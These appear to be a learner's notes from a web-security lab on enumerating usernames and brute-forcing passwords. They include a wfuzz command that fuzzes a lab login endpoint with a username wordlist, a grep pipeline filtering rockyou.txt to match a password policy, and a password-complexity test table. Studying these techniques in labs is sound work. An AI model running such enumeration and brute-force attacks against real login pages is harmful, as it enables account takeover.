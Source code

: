 ```
python3 timing.py /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt
```
### Enumerate through Password Reset
### Enumerate through Registration Form
### Predictable Usernames
### Lab Questions:
#### Question 1 wfuzz payload:
```Shell
wfuzz -c -z file,/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Invalid username" http://94.237.56.76:33323/question1/?Username=FUZZ&Password=dummypass
```
#### Question 2 - source code showed `name="wronguser"` for incorrect usernames and `name="validuser"` for actual user
![[validuser in source.png]]
#### Question 3 - used timing.py
#### Question 4 - Used intruder on the registration account to see which user was already registered
## Brute Forcing Passwords
#### Find lines have at least one uppercase character (`'[[:upper:]]'`), and then only lines that also have a lowercase one (`'[[:lower:]]'`) and with a length of 8 and 12 chars ('^.{8,12}$') using extended regular expressions (-E)
```Shell
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep -E '^.{8,12}$'
```
#### Password Complexity Test Table
|**Tried**|**Password**|**Lower**|**Upper**|**Digit**|**Special**|**>=8chars**|**>=20chars**|
|---|---|---|---|---|---|---|---|
|Yes/No|`qwerty`|X||||||
|Yes/No|`Qwerty`|X|X|||||
|Yes/No|`Qwerty1`|X|X|X||||
|Yes/No|`Qwertyu1`|X|X|X||X||
|Yes/No|`Qwert1!`|X|X|X|X|||
|Yes/No|`Qwerty1!`|X|X|X|X|X||
|Yes/No|`QWERTY1`||X|X||||
|Yes/No|`QWERT1!`||X|X|X|||
|Yes/No|`QWERTY1!`||X|X|X|X||
|Yes/No|`Qwerty!`|X|X||X|||
|Yes/No|`Qwertyuiop12345!@#$%`|X|X|X|X|X|X|
